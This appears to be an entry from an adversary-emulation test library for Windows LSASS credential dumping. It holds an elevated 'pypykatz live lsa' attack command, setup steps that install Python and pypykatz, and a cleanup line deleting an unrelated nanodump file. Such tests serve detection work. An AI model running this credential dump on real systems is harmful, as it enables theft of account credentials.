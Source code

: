 Will create a Python virtual environment within the External Payloads folder that can be deleted manually post test execution.

**Supported Platforms:** Windows


**auto_generated_guid:** c37bc535-5c62-4195-9cc3-0517673171d8





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| venv_path | Path to the folder for the tactics venv | string | PathToAtomicsFolder&#92;..&#92;ExternalPayloads&#92;venv_t1003_001|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
"#{venv_path}\Scripts\pypykatz" live lsa
```

#### Cleanup Commands:
```cmd
del "%temp%\nanodump.dmp" > nul 2> nul
```



#### Dependencies:  Run with `powershell`!
##### Description: Computer must have python 3 installed
##### Check Prereq Commands:
```powershell
if (Get-Command py -errorAction SilentlyContinue) { exit 0 } else { exit 1 }
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction ignore -Force | Out-Null
invoke-webrequest "https://www.python.org/ftp/python/3.10.4/python-3.10.4-amd64.exe" -outfile "PathToAtomicsFolder\..\ExternalPayloads\python_setup.exe"
Start-Process -FilePath "PathToAtomicsFolder\..\ExternalPayloads\python_setup.exe" -ArgumentList "/quiet InstallAllUsers=1 PrependPath=1 Include_test=0" -Wait
```
##### Description: Computer must have venv configured at #{venv_path}
##### Check Prereq Commands:
```powershell
if (Test-Path -Path "#{venv_path}") { exit 0 } else { exit 1 }
```
##### Get Prereq Commands:
```powershell
py -m venv "#{venv_path}"
```
##### Description: pypykatz must be installed
##### Check Prereq Commands:
```powershell
if (Get-Command "#{venv_path}\Scripts\pypykatz" -errorAction SilentlyContinue) { exit 0 } else { exit 1 }
```
##### Get Prereq Commands:
```powershell
& "#{venv_path}\Scripts\pip.exe" install --no-cache-dir pypykatz 2>&1 | Out-Null
```
